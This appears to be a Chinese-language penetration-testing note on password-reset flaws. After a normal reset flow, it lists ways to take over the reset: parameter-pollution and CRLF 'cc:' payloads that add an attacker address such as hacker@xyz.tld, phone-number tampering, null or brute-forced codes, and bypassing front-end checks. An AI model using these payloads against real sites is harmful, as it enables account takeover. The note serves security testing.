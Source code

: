 # 一般重置密码流程

1. 输入与账户关联的邮箱地址或用户名
2. 通过以下方式验证身份：
   - **邮箱验证**：接收包含重置链接的邮件。
   - **短信验证**：获取包含验证码的短信。
   - **安全问题**：回答预设的安全问题。
3. 重置密码
   - 点击邮件或短信中的链接，或输入验证码后，进入密码重置页面。
   - 输入新密码并确认。
4. 完成重置
   - 系统提示密码重置成功，使用新密码登录



# 常见场景

**可能出现在新用户注册页面，也可能是用户登录后重置密码的页面，或者用户忘记密码时的密码找回页面。其中，密码找回功能是重灾区**。

在第二步验证身份时

- 重置凭证泄漏

  ```
  响应包中返回短信验证码
  邮件重置链接泄露
  ```

- 重置凭证接收方可劫持

  a、构造两个参数：
  email=[victim@xyz.tld](mailto:victim@xyz.tld)&email=[hacker@xyz.tld](mailto:hacker@xyz.tld)
  b、使用抄送方式:
  email=[victim@xyz.tld](mailto:victim@xyz.tld)%0a%0dcc:[hacker@xyz.tld](mailto:hacker@xyz.tld)
  c、使用分隔符：
  email=[victim@xyz.tld](mailto:victim@xyz.tld),[hacker@xyz.tld](mailto:hacker@xyz.tld)
  email=[victim@xyz.tld](mailto:victim@xyz.tld)%[20hacker@xyz.tld](mailto:20hacker@xyz.tld)
  email=[victim@xyz.tld](mailto:victim@xyz.tld)|[hacker@xyz.tld](mailto:hacker@xyz.tld)

  ```
  可修改请求包中的手机号控制短信验证码发送到哪
  phone=phone2；phone=phone1，phone2
  
  可修改请求包中的邮箱
  PHP修改user[email]=admin@gmail.com为user[email][]=admin@gmail.com&user[email][]=evil@gmail.com
  a、构造两个参数：
  email=victim@xyz.tld&email=hacker@xyz.tld
  b、使用抄送方式:
  email=victim@xyz.tld%0a%0dcc:hacker@xyz.tld
  c、使用分隔符：
  email=victim@xyz.tld,hacker@xyz.tld
  email=victim@xyz.tld%20hacker@xyz.tld
  email=victim@xyz.tld|hacker@xyz.tld
  ```

- 验证码可暴力破解

- 服务端实际未校验

  ```
  重置链接中的token格式符合即可，内容随便填
  短信验证码置空，置null，万能验证码
  可枚举无密保的用户名，导致任意密保答案均可重置密码
  ```

- 依靠前端 js 判断是否可以进入第三步

  ```
  第二步校验通过时服务端并未向客户端 set-cookie，而是通过前端 js 判断，只需将响应内容替换成通过校验的即可
  ```

在第三步重置密码时

- 绑定关系失效

  ```
  重置密码时通过sessionid绑定账号，利用？
  重置密码通过请求包中的用户名参数进行绑定
  ```

  



